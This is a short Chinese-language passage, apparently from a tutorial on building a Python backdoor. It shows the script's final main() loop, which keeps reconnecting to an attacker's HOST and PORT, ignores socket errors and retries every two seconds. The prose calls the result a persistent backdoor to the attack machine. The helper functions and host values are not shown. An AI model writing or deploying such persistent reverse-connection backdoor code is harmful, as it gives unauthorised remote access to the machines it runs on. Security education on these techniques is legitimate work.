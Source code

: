 我们脚本的最后部分是错误检查和运行部分。在脚本运行之前，我们确保让 Python 知道我们有一个机制来检查会话是否处于活动状态，方法是使用我们之前的真实语句。如果连接丢失，Python 脚本将尝试重新与攻击机建立连接，使其成为一个持久的后门：

```py
def main():
   while True:
      dead=False
      try:
         go=connect((HOST,PORT))
         while not dead:
            dead=wait(go)
         go.close()
      except socket.error:
         pass
      time.sleep(2)

if __name__ == "__main__":
   sys.exit(main())
```
